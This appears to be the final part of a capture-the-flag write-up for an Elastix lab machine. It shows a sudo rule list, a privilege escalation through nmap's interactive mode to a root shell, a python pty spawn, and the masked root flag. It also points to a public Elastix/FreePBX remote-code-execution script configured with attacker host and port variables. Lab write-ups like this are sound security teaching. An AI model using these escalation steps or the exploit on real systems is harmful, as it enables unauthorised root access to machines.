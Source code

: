 ```bash
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

# Exploitation (2)

I chose to use `nmap`, because I knew I could escape to a shell according to [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/).

```bash
sh-3.2$ sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
!sh
python -c "import pty; pty.spawn('/bin/bash')"
bash-3.2#  id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

# root.txt

The root flag is located at `/root` as always.

```bash
bash-3.2# cat /root/root.txt
d279XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Rooted ! Thank you for reading and look forward for more writeups and articles !

# Extra

Back in our enumeration, we see that the version of `Elastix` that is installed is `2.2.0` and the version of `freePBX` that was installed is `2.8.1`. Hence the `FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution` from the `searchsploit` results should work. However, it was only after reading other people's writeups, I realised that I needed to modify the `extension` value in the script. 

```bash
$ cat 18650.py
...
import requests

rhost="10.10.10.7"
lhost="10.10.XX.XX"
lport=1337
extension="1000"
...
```
